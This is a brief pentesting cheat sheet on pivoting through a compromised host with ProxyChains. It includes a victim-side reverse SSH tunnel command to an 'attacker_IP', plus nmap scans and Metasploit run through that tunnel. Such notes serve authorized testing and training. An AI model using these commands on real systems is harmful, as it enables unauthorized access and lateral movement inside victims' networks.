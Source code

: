 # Pivoting

### ProxyChains

#### Greater than OpenSSH 7.6

If attacking a victim running OpenSSH version lower than 7.6, your process will be different. Older versions don't support -R and have to use a two-way proxy with -D

##### On Attacker Box

Open /etc/proxychains4.conf. 

Comment strictchain and uncomment dynamicchain. Uncomment quitemode. Comment proxydns. Then change the default config at the bottom from socks4 127.0.0.1 9080 to socks5 and whatever port you want to use.

Note: For RDP, make sure xclip is installed.

##### Make sure that SSH is listening on Attacker Box

```
Sudo systemctl start ssh.service                                                                                  
```

##### On Victim Box

```
ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port                                                                                                  
```

This only requires an ssh client on the victim machine which is extremely common. Only other thing required it to start ssh on your attacker box, as well as a port forwarding rule if it's going over the internet. 

##### On Attacker Box

```
Sudo proxychains nmap --top-ports=20 -sT -sV -sC  -v --open  -Pn IP_Address
Sudo proxychains nmap -iL scope -F -sT -v -Pn | tee fast_scan
```

You can run wrap almost any tool inside of proxychains to force it through the ssh tunnel, including things like metasploit/msfconsole. Extremely useful to utilize proxy 'fun' even if your meta module/other tool doesn't support proxy configuration.

##### Wrapping Metasploit inside of Proxychains

```
sudo proxychains msfconsole
```

This prevents you from having to setup proxies within each module in meta. Some modules don't support proxies so just another layer of difficulty that proxychains helps us avoid.
